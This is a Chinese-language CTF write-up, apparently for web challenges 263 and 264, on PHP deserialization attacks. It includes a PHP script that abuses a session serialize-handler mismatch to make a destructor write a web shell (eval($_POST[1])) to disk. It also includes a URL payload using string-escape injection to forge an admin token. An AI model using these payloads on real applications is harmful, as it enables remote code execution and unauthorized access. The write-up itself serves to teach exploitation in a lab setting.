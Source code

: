 # 263 反序列化

- 御剑扫描，找到www.zip源码
- 代码审计，inc/inc.php中user对象，析构函数有file_put_contents函数可用

ini_set('session.serialize_handler', 'php');是非默认序列化器，需要配置才能生效

ini_set('session.serialize_handler', 'php_serialize');是php默认的序列化器，默认生效

思路

- 通过cookie控制limit的值
- 通过limit控制session的值，session值落地，进行了序列化
	- \$\_SESSION['limit']=base64_decode($_COOKIE['limit']);
- 通过session控制反序列化的值，
	- isset(\$\_SESSION['limit'])

payload

```php
<?php
ini_set('session.serialize_handler', 'php');
class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
}

$a = new User("1.php", '<?php eval($_POST[1]);phpinfo();?>');
echo base64_encode("|".serialize($a));
```

# 264 反序列化 字符串逃逸

反序列化最后我们需要的是`";s:5:"token";s:5:"admin";}`

因为有替换，切替换后反序列化字符串长度会+1

所以需要27次替换

payload

```
?f=1&m=3&t=fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}
```
